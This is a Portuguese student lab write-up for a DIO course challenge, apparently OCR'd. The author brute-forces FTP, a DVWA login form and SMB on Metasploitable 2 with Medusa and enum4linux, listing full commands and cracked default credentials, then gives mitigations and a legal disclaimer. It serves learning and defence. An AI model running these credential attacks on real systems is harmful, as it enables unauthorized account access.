 Desafio de Projeto DIO: Brute Force com 
Kali e Medusa 
Este é o meu projeto do desafio de cibersegurança da DIO. O objetivo era usar o Kali Linux e o 
Medusa para simular ataques de força bruta em um laboratório virtual. 
1. Ambiente do Laboratório 
● Virtualizador: VirtualBox 
● Rede: Host-Only (rede interna) 
● Atacante: Kali Linux 
● Alvos: Metasploitable 2 e DVWA 
2. Ataques Realizados 
Aqui estão os testes que eu fiz. 
Cenário 1: Ataque FTP (no Metasploitable 2) 
● Alvo: 192.168.56.102 
● Listas: user.txt e senhas.txt 
Comando: 
medusa -h 192.168.56.102 -U user.txt -P senhas.txt -M ftp 
 
Resultado (Funcionou!): 
┌──(kalig㉿kali)-[~] 
└─$ medusa -h 192.168.56.102 -U user.txt -P senhas.txt -M ftp 
Medusa v2.3 [[http://www.foofus.net](http://www.foofus.net)] (C) JoMo-Kun / Foofus Networks 
<jmk@foofus.net> 
 
2025-10-24 23:19:10 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 comp 
... 
2025-10-24 23:19:25 ACCOUNT FOUND: [ftp] Host: 192.168.56.102 User: msfadmin 
Password: msfadmin [SUCCESS] 
... 
2025-10-24 23:19:49 ACCOUNT CHECK: [ftp] Host: 192.168.56.102 (1 of 1, 0 comp 
lete) User: user (3 of 3, 2 complete) Password: msfadmin (4 of 4 complete) 
 

Cenário 2: Ataque de Formulário Web (no DVWA) 
● Alvo: 192.168.56.102 
● Nível: Low 
Comando: 
medusa -h 192.168.56.102 -U user.txt -P senhas.txt -M web-form \ 
-m FORM_TARGET:"/dvwa/vulnerabilities/brute/index.php" \ 
-m FORM_DATA:"username=%USER%&password=%PASS%&Login=Login" \ 
-m FORM_FAIL:"Username and/or password incorrect." \ 
-m PAGE_LOGIN_PATH:"/dvwa/login.php" \ 
-m PAGE_LOGIN_DATA:"username=admin&password=password&Login=Login" 
 
Resultado (Funcionou também): 
Medusa v2.3 [[http://www.foofus.net](http://www.foofus.net)] (C) JoMo-Kun / Foofus Networks 
<jmk@foofus.net> 
 
WARNING: Invalid method: FORM_TARGET. 
... 
2025-10-24 23:30:52 ACCOUNT FOUND: [web-form] Host: 192.168.56.102 User: msfadmin 
Password: admin [SUCCESS] 
2025-10-24 23:30:52 ACCOUNT FOUND: [web-form] Host: 192.168.56.102 User: admin 
Password: admin [SUCCESS] 
2025-10-24 23:30:52 ACCOUNT FOUND: [web-form] Host: 192.168.56.102 User: user 
Password: admin [SUCCESS] 
 
Cenário 3: Password Spraying em SMB (no Metasploitable 2) 
● Alvo: 192.168.56.102 
● Técnica: Testar uma senha (msfadmin) em vários usuários. 
Enumeração de Usuários (com enum4linux): 
enum4linux -U 192.168.56.102 
 
s====================================( Users on 192.168.56.102 
)======================================  
... 
user:[user] rid:[0xbba] 
user:[root] rid:[0x3e8] 
user:[msfadmin] rid:[0xbb8] 

... 
enum4linux complete on Fri Oct 24 23:22:32 2025 
 
Comando (Password Spraying): 
medusa -h 192.168.56.102 -U user.txt -p 'msfadmin' -M smbnt 
 
Resultado (Achou o admin!): 
┌──(kalig㿿kali)-[~] 
└─$ medusa -h 192.168.56.102 -U user.txt -p 'msfadmin' -M smbnt 
Medusa v2.3 [[http://www.foofus.net](http://www.foofus.net)] (C) JoMo-Kun / Foofus Networks 
<jmk@foofus.net> 
 
2025-10-24 23:26:31 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) 
User: msfadmin (1 of 3, 0 complete) Password: msfadmin (1 of 1 complete) 
2025-10-24 23:26:31 ACCOUNT FOUND: [smbnt] Host: 192.168.56.102 User: msfadmin 
Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)] 
2025-10-24 23:26:31 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) 
User: admin (2 of 3, 1 complete) Password: msfadmin (1 of 1 complete) 
2025-10-24 23:26:31 ACCOUNT CHECK: [smbnt] Host: 192.168.56.102 (1 of 1, 0 complete) 
User: user (3 of 3, 2 complete) Password: msfadmin (1 of 1 complete) 
 
3. Como se Proteger (Mitigação) 
Depois de ver como é fácil atacar, aqui estão as formas de se defender: 
1. Usar senhas fortes e complexas. 
2. Bloquear contas depois de X tentativas erradas. 
3. Usar "Rate Limiting" (atraso entre tentativas). 
4. Usar Autenticação Multifator (MFA). 
5. Monitorar logs para tentativas de login estranhas. 
6. Desligar serviços que não estão sendo usados (como FTP ou SMB). 
4. Aviso Legal 
Fiz todos esses testes em um ambiente virtual e controlado (Metasploitable 2 e DVWA), só 
para aprender. Nenhum sistema real foi atacado. 

